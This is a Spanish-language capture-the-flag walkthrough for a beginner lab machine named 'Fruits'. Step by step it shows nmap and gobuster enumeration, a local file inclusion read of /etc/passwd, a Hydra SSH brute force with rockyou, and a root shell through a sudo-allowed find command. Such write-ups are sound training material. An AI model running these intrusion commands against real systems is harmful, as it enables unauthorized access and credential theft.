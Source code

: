 ```yaml
---
description: '🔍 Dificultad: Principiante'
---
```


# Fruits

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.60
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/imagen (16).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 192.168.1.60
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/imagen (17).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 192.168.1.60
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/imagen (18).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora exploramos el servicio **HTTP**. Ingresamos la IP y nos encontramos una página de frutas para buscarlas.

<figure><img src="../../.gitbook/assets/imagen (19).png" alt=""><figcaption></figcaption></figure>

Ahora buscaremos directorios con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://192.168.1.60/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html -t 100
```

<figure><img src="../../.gitbook/assets/imagen (20).png" alt=""><figcaption></figcaption></figure>

Después de realizar una revisión inicial, observamos que al acceder al directorio `/fruits.php`, este aparece en blanco. Esto nos lleva a sospechar que podría tratarse de una vulnerabilidad de inclusión local de archivos (LFI, por sus siglas en inglés). Para confirmar esta hipótesis y explorar posibles parámetros que alteren el comportamiento de la página, decidimos utilizar la herramienta **wfuzz**. El objetivo es identificar parámetros ocultos o no documentados que permitan explotar la vulnerabilidad o arrojar más información sobre el funcionamiento del archivo.

A continuación, ejecutamos **wfuzz** para enumerar parámetros potenciales que puedan estar presentes en la página y desencadenar un comportamiento diferente, lo cual nos ayudará a validar si realmente estamos ante una vulnerabilidad LFI.

```bash
wfuzz -c --hl=1 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://192.168.1.60/fruits.php?FUZZ=/etc/passwd
```

<figure><img src="../../.gitbook/assets/imagen (21).png" alt=""><figcaption></figcaption></figure>

Ahora debemos ingresar en el buscador esto:

```bash
http://192.168.1.60/fruits.php?file=/etc/passwd
```

<figure><img src="../../.gitbook/assets/imagen (22).png" alt=""><figcaption></figcaption></figure>

Observamos que el comando **file** nos devuelve un resultado exitoso, revelando el contenido del archivo `/etc/passwd`. Esto nos permite identificar los usuarios del sistema. Entre ellos, destaca el usuario **bananaman**, ya que tiene acceso a la shell `/bin/bash`. Este detalle es relevante, ya que indica que **bananaman** es un usuario con permisos de inicio de sesión en el sistema, lo que podría ser útil para futuras acciones de escalada de privilegios o acceso remoto.

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

```
hydra -l bananaman -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.60
```

que utiliza la herramienta **Hydra** para realizar un ataque de fuerza bruta contra el servicio **SSH** de una máquina con la IP **192.168.1.60**.

<figure><img src="../../.gitbook/assets/imagen (23).png" alt=""><figcaption></figcaption></figure>

Al realizar el ataque de fuerza bruta, hemos descubierto la contraseña de **bananaman**. Sabiendo esto, nos conectamos a través de **SSH** al usuario con el comando:

```bash
ssh bananaman@192.168.1.60
```

<figure><img src="../../.gitbook/assets/imagen (24).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../../.gitbook/assets/imagen (25).png" alt=""><figcaption></figcaption></figure>

Al ejecutar el comando `sudo -l`, observamos que tenemos permisos para ejecutar el comando `find` como el usuario root. Esto indica que podríamos explotar esta configuración para elevar nuestros privilegios. Consultando la web de **GTFOBins**, encontramos que el comando `find` es vulnerable y puede ser utilizado para obtener acceso con privilegios de root.

La secuencia de comandos que nos permite aprovechar esta vulnerabilidad es la siguiente, tomada directamente de [GTFOBins](https://gtfobins.github.io/gtfobins/find/):

```
sudo /usr/bin/find -exec /bin/sh -p \; -quit
```

<figure><img src="../../.gitbook/assets/imagen (26).png" alt=""><figcaption></figcaption></figure>

Hemos finalizado con éxito **todas las etapas del proceso** y cumplido con todos los **requisitos**.&#x20;

¡Buena suerte en tu búsqueda de las **flags**! Recuerda prestar atención a cada detalle, examinar los archivos y servicios detenidamente, y utilizar todas las herramientas a tu alcance para encontrarlas. ¡La clave está en la perseverancia y en no dejar nada sin explorar! ¡Adelante, hacker! 💻🔍🚀
